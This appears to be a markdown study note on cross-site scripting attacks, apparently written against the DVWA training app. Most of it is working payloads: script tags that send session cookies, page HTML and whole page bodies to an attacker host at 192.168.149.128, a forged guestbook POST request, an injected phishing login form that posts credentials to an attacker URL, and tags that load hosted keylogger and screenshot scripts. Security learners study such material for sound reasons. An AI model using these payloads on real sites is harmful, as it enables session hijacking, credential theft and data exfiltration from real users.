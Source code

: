 ## <u>Exploit Scenarios</u>

**1. Session Hijacking**

- Steal Session Cookies : document.cookie

  Eg. Payload - 

  ```
  <script>new Image().src="http://192.168.149.128/bogus.php?output="+document.cookie;</script>
  ```

**2. Perform Unauthorized Activities**

- If *HTTPOnly* flag on Cookies, can't steal them through Js

- Eg. Forge an HTTP POST request to post something like a comment. 

  ```
  <script>
  var xhr = new XMLHttpRequest();
  xhr.open('POST','http://localhost:81/DVWA/vulnerabilities/xss_s/',true);
  xhr.setRequestHeader('Content-type','application/x-www-form-urlencoded');
  xhr.send('txtName=xss&mtxMessage=xss&btnSign=Sign+Guestbook');
  </script>
  ```

  -  Creating a **XMLHTTPRequest** object and setting the necessary header and data

**3. Phishing** 

- can be used to inject a form into the vulnerable page and use this form to collect user credentials

- Eg. 

  ```
  <h3>Please login to proceed</h3> <form action=URL>
  Username:<br><input type="username" name="username"></br>
  Password:<br><input type="password" name="password"></br><br>
  <input type="submit" value="Logon"></br>
  ```

  - Sends the creds over to the Attacker Server(URL)

**4. KeyLogger**

- Creating a malicious Js file and hosting it on an attacker controlled Server


  - On every keypress a new XMLHTTPRequest is made to the attacker server *(keylog.php)* with the logged keystrokes


    - The *keylog.php* file will write all the keystrokes to *data.txt*

  - Now, just calling the hosted js from the attacker server

    ```
    <script src="http://192.168.149.128/xss.js">
    ```

**4. Stealing Sensitive Information**

- Eg. An Internet banking application is vulnerable to XSS, the attacker could read the current balance, transaction information, personal data, etc.
- Here, we'll host a Script on the Attacker controlled Server containing logic to take the page Screenshot
- And a PHP Script to save the contents to a PNG file:


- Final Injection Payload:

  ```
  <script src="http://192.168.149.128/screenshot.js">
  ```

  #### 

  #### <u>**Alternative Way**</u>

  - Another way to steal the page content would be to get the HTML source code by using **getElementById**

  - Eg. 

    ```
    <script>new Image().src="http://192.168.149.128/bogus.php?output="+document.getElementById('guestbook_comments').innerHTML;</script>
    
    // or even the entire page source :
    
    <script>new Image().src="http://192.168.149.128/bogus.php?output="+document.body.innerHTML</script>
    ```
